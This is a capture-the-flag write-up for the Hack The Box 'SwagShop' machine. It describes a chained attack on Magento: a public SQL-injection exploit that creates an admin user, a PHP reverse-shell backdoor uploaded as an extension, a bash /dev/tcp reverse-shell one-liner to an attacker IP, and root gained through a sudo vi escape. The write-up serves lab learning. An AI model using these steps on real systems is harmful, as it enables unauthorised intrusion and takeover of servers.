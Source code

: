 # Hack The Box: SwagShop machine write-up

This machine, that runs with ip ``10.10.10.140``, was a really good and entertaining way of learning about Magento CMS and how different exploits can be chained together in order to achieve RCE. The first one is based on a SQL injection which lets us add a user to the Magento db, which then grants us access to the admin panel. From there, we can upload a backdoor that can be escalated to root thanks to a misconfiguration on the server that lets us run ``sudo`` with ``vi`` as user ``www-data``.

The only downside of it was that most people were making it crash all the time, which made it really hard for me to be able to experiment without constant resets... Overall I'd say this was one of the most unstable boxes I've done.

Let's begin!

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Tue Jun 11 10:41:39 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 11 10:41:53 2019 -- 1 IP address (1 host up) scanned in 14.33 seconds
```

We don't have much, just SSH and a web server, so we'll start by checking out port 80.

#### Web server enumeration

At first we are greeted with what looks like a store. Upon this, I immediately run dirb on the background so that it runs while I tinker around with the website.

*Website found on port 80*

![Img](images/website.png)

I didn't found much manually, so I came back to check the dirb results and bingo! It found something:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jun 12 17:18:17 2019
URL_BASE: http://10.10.10.140/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.140/ ----
==> DIRECTORY: http://10.10.10.140/app/                                         
==> DIRECTORY: http://10.10.10.140/downloader/                                  
==> DIRECTORY: http://10.10.10.140/errors/                                      
+ http://10.10.10.140/favicon.ico (CODE:200|SIZE:1150)                          
==> DIRECTORY: http://10.10.10.140/includes/                                    
+ http://10.10.10.140/index.php (CODE:200|SIZE:16097)                           
==> DIRECTORY: http://10.10.10.140/js/                                          
==> DIRECTORY: http://10.10.10.140/lib/                                         
==> DIRECTORY: http://10.10.10.140/media/                                       
==> DIRECTORY: http://10.10.10.140/pkginfo/                                     
+ http://10.10.10.140/server-status (CODE:403|SIZE:300)                         
==> DIRECTORY: http://10.10.10.140/shell/                                       
==> DIRECTORY: http://10.10.10.140/skin/                                        
==> DIRECTORY: http://10.10.10.140/var/
```

Accessing ``/downloader`` we can observe that the website is using Magento, a CMS that was subject to some attacks in the past.

*Control panel for Magento (``/downloader``)*

![Img](images/downloader.png)

#### Gaining user with Magento

We don't have any credentials to log in to the control panel, so I went straight into searchsploit to see if there were any exploits available.

*Results from searchsploit search*

![Img](images/searchsploit.png)

I started to try all of them until one finally worked: Magento eCommerce - Remote Code Execution. I copied the python script to my working directory with: ``searchsploit -m exploits/xml/webapps/37977.py```. And had a look at it. It looked like a SQL injection, so I ran it after modifying the following lines:

```py
target = "http://10.10.10.140/index.php"
```

Then I modified the credentials I wanted to have to be ``root2u:root2u`` and ran it:

*Output of exploit script*

![Img](images/exp1.png)

The I just log in to the panel with those creds and have the possibility to upload some kind of package:

*``/downloader`` control panel*

![Img](images/control.png)

I googled around and found this [website](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html) where it's explained how it's possible to create a package with a simple php file. I followed it and used this [shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentestmonkey. However, it didn't work and the php file was recognised as a directory when I tried to access it.

*Uploading module as a ``.tar.gz`` file doesn't work*

![Img](images/failed.png)

Eventually I bumped into an article on the internet where they were using another extension: ``.tgz``. I tried and it worked!

Running a ``curl`` on ``http://10.10.10.140/errors2/backdoor.php`` grants me a shell and we can read the user flag:

*Shell gained from php backdoor*

![Img](images/shell1.png)

![Img](images/shell2.png)

### Getting to root

Once on this shell I noticed that I needed an actual proper shell and sho I opened up another listener with netcat and ran: ``bash -c 'bash -i >& /dev/tcp/10.10.12.11/8080 0>&1'``.

After that, I ran ``sudo -l`` to see if I could run any commands as root and it turned out that I did:

*Improving the shell*

![Img](images/shell3.png)

I can run the file editor ``vi`` as root under the directory ``/var/www/html/*`` so I created a new file and used a command propmt command to read the root flag (commands can be executed from within vi):

*Getting the root hash*

![Img](images/shell4.png)

![Img](images/shell5.png)

And that's it! I could've also ran ``:!/bin/bash`` to get a root shell and read the flag from there, but I just did this as it was more straightforward.

I hope you learned something with this cool box and enjoyed the write-up!

---

*Diego Bernal Adelantado*
